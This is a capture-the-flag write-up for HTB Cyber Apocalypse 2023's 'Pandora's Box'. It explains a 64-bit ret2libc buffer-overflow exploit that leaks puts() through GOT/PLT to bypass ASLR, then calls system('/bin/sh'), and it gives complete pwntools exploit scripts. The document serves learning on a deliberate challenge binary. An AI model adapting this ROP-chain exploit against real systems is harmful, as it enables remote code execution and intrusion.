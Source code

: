
# Return-to-libc/ret2libc -64bit ELF ASLR - HTB Cyber Apocalypse 2023 CTF Pandora's box 


## This is my writeup for the "Pandora's Box" challange from HTB Cyber Apocalypse 2023 CTF.

### Consider giving this a star if you found it helpfull

After downloading the pb file we run the ```file ./pb``` command wich gives the folowing output:

![alt text](images/file.png?raw=true "File")

We can see that the pb file is a 64 bit elf file.

if we run checksec we can see that NX is enabled so no stack execution.

if we analyze the file in ghidra we can see that the main function calls 4 other functions, setup(), cls(), banner() and box. Most of them are not intresting but the box function is.

![alt text](images/ghidra.png?raw=true "File")

The Box function contains a vulnarble fgets() fucntion. but we have to make sure the first input we give it is '2'. If we run the program we also see that if we choose option 2 it asks us for a input.

If we input some random characters the program wil send a message and shut down. If we give the program an input of A's, thats really long we get an error and the program exits. This is the vulnarble fgets()

![alt text](images/segfault.png?raw=true "seg")

When we run a obj dump (```objdump ./pb -d```). we can see that the program contains no obvious win function. It does contain a box() function. So no re2win challange. but by looking at the functions in ghidra we know the program uses some functions from libc like puts(), prinf(), read() and more. So this looks like a ret2libc challange. Also it ask us for a location in the "library" so...


If we open the program in gdb we can get a better look at what is going on inside. ```gdb ./pb``` (Note: I am using geff extention for gdb). We know the second input is vulnarble so i create a cyclic pattern wiht gbd (```pattern create```) and use that to find the offset. If we copy and paste the cyclic pattern in the input end press enter tho program overflows and we can find our offset by searching fot the first 4 characters of the rsp register. (```pattern search haaa```)
![alt text](images/overflow.png?raw=true "overflow")

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 56 A's (offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.

The ret-to-libc technique is similar to the standard stack overflow attack with one important distinction: instead of overwriting the return address of the vulnerable function with the address of the shellcode, the return address is going to point to a function in the libc library like system(), so we can execute shell code that is stored in the regestry as arguments.

before we can point to system its important to know if ASLR (Address Space Layout Randomisation) is enabled. For that we can run the ```ldd ./pb``` function twice and compare the address of libc. When we do this we can see that the adress dont match so ASLR is enabled and this means we have to leak the adress of libc first before we can find system() in libc.

![alt text](images/ldd.png?raw=true "ldd")

to leak the adress we first need to find out the adress of a libc function in both the GOT and the PLT, we can use ghidra for this part again. With ghidra we can select the .got and .plt sections in the program trees. Here we have to find the addresses of a libc funciton in both. In this case I used puts().

![alt text](images/got.png?raw=true "got")

after that we we need to find a "pop rdi, ret" gadget adress with ```ropper -f ./pb | grep rdi```and combine this with the adress of got and plt puts() to leak the addres of puts() in libc and from there we can caluclate the base adress of libc. I made a python script to do this using pwntools.

```
from pwn import *
from time import sleep
import sys

r =gdb.debug('./pb', '''

        c
''')


r    = remote(IP, PORT)
exe = './pb'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
rop = ROP(elf)








rop.raw("A" * 56) # paddding
rop.raw(0x000000000040142b) # pop rdi
rop.raw(0x00403fa0) # got_put
rop.raw(0x00401030) # plt_put
rop.raw(0x0000000000401016) #ret for stack aligment
rop.raw(0x00000000004013be) #adress in main that does not result in SIGEV

#wait for first read and select option 2
r.recvuntil(b">>") 
r.sendline(b'2')
#wait for second read and send payload
r.recvuntil(b'Insert location of the library: ')
r.sendline(rop.chain())
#reading unimportant bytes
r.recvuntil(b'!\x0a\x0a')
#reading leaked address 
leak = unpack(r.recv()[:6].ljust(8, b"\x00"))

print("Leaked puts:" + str(hex(leak)))

```
The payload consist of a padding, then the pop rdi gadget, adress of puts in got, adress of plt in puts, a ret gadget wich is just a ret instruction to do some stack alligments and not get SIGBUS or SIGEV (```ropper -f ./pb | grep ret```) and lastly an adress in main. I used the call to box() adress in main because returining to main directly seem to result in stack alligment issues. we can find this adress by using ```objdump ./pb -d``` and looking for the main function.

![alt text](images/callbox.png?raw=true "callbox")

After that sending the payload the code returns a lot of bytes most of them being the banner of box() but the last few bytes are the adress of puts() in libc. now we cam just calculate the base adress of libc.

we can do this by finding the offset of puts() in the ./glibc/libc.so.6. while we are finding these ofsets we also need to find the offset of system and a shellcommand so we can use that as argument for system().

we can find the offsets with ```objdump ./glibc/libc.so.6 -d | grep puts``` and  ```objdump ./glibc/libc.so.6 -d | grep system```

![alt text](images/putsinc.png?raw=true "putsinc")

the addres off the ```/bin/sh``` we can find by using ```strings -a -t x ./glibc/libc.so.6 |grep /bin/sh```


from there we just have to calculate the base adress, create our rop chain and retrive a shell.


Here is the rest of the python script using pwn tools to handle the program localy or remotly.

```

from pwn import *
from time import sleep
import sys 


# IP   = '104.248.169.117' 
# PORT = 31796
#r    = remote(IP, PORT)

r =gdb.debug('./pb', '''

        c
''')


exe = './pb'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
rop = ROP(elf)








rop.raw("A" * 56) # paddding
rop.raw(0x000000000040142b) # pop rdi
rop.raw(0x00403fa0) # got_put
rop.raw(0x00401030) # plt_put
rop.raw(0x0000000000401016) #ret for stack aligment
rop.raw(0x00000000004013be) #adress in main that does not result in SIGEV

#wait for first read and select option 2
r.recvuntil(b">>") 
r.sendline(b'2')
#wait for second read and send payload
r.recvuntil(b'Insert location of the library: ')
r.sendline(rop.chain())
#reading unimportant bytes
r.recvuntil(b'!\x0a\x0a')
#reading leaked address 
leak = unpack(r.recv()[:6].ljust(8, b"\x00"))

print("Leaked puts:" + str(hex(leak)))
rop2 = ROP(elf)
# second part - use leaked address to preform ret2libc
libc_puts = 0x080ed0 
libc_sys  = 0x050d60
libc_sh = 0x1d8698

offset = leak - libc_puts
sys = offset + libc_sys
sh = offset + libc_sh

log.info("Going again:\n")
rop2.raw("A" * 56)
rop2.raw(0x000000000040142b) #pop rdi
rop2.raw(sh) # addres of bin/sh
rop2.raw(0x0000000000401016) #ret stack alligment
rop2.raw(sys)# adress of system


#selecting option 2
r.send(b'2')
r.recvuntil(b'Insert location of the library: ')
#sending payload
r.sendline(rop2.chain())
#SHELL!
r.interactive()

```
![alt text](images/shell.png?raw=true "shell")

I hope this helped you out,
Thanks for reading, Suggestions & Feedback are appreciated !